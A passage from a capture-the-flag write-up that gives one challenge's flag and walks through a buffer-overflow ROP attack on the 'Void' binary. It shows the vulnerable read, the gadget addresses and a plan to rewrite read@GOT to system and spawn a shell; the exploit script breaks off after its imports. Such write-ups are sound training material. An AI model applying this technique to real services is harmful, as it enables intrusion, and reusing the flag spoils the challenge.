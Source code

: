 <img src="pandora.png" alt="Never gonna give you up" width="1000"/>

Flag is: **HTB{r3turn_2_P4nd0r4?!}**

## Void

* **Given file:** [Get it here!](https://github.com/padolex/misc/blob/main/pwn_void.zip)

* **Description:** The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.

* **Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

* **Category:** Binary Exploitation/Pwnable

* **Difficulty:** Medium

The program is simple, buffer overflow occurs in function `vuln`, here is the pseudocode of `vuln`.
```c
ssize_t vuln()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  return read(0, buf, 0xC8uLL);
}
```
I found a similar write-up for this challenge [here](https://nandynarwhals.org/cyberpeace-2022-crysys/). The main idea is to ultilize ROP gadgets to spawn a shell, there is an interesting gadget allows us to modify memory by adding a 32 bit value to that memory, let call this `add_gadget`.
```bash
$ ROPgadget --binary void | grep "ebx"
0x0000000000401108 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
```
Our attack plan
- Stage 1 store string "/bin/sh" in `.bss` section. 
- Stage 2 change `read@GOT` to `system@GOT` by adding an offset between `read@GOT` and `system@GOT`.
- Stage 3 call `read@plt` with `/bin/sh`.
  
Our used gadgets in exploit script
```
rdi = 0x00000000004011bb : pop rdi ; ret
rsi_r15 = 0x00000000004011b9 : pop rsi ; pop r15 ; ret
add_gadget = 0x0000000000401108 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
gadget = 0x00000000004011b2 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

```
Here is the exploit script
```python
from pwn import *

context.arch = 'amd64'

```